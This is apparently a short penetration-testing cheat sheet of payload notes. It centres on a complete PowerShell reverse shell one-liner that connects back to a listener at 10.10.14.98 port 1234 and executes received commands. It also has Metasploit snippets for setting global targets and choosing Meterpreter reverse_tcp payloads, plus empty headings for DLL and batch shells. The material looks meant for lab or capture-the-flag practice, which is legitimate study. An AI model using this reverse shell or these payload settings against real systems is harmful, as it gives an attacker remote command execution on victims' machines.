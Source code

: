# Payloads

## Basic powershell reverse shell

```
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.98',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
## reverse shell dll

```


```
## reverse shell .bat

## Staged vs non staged
```
In Metasploit, the “/” character is used to denote whether a payload is staged or not,
so shell_reverse_tcp at index 20 is not staged, whereas shell/reverse_tcp at index 15 is.
```

## msfvenom

![Pasted image 20230508141045](https://github.com/dbissell6/Shadow_Stone/assets/50979196/988055f3-d9a3-4b0a-9e5b-be91b0886c30)

## msfconsole

g will set variable as global, useful when trying different exploits
`setg rhosts 10.10.10.10`


![Pasted image 20230508141206](https://github.com/dbissell6/Shadow_Stone/assets/50979196/efbcf2e5-fec1-4485-ba20-5e988702c92b)


`set payload windows/meterpreter/reverse_tcp`


### show system arch vs payload arch

![Pasted image 20230508154055](https://github.com/dbissell6/Shadow_Stone/assets/50979196/31f9ac3d-5efb-4b31-9237-f0b652376925)

Now can
```
set payload windows/x64/meterpreter/reverse_tcp
```

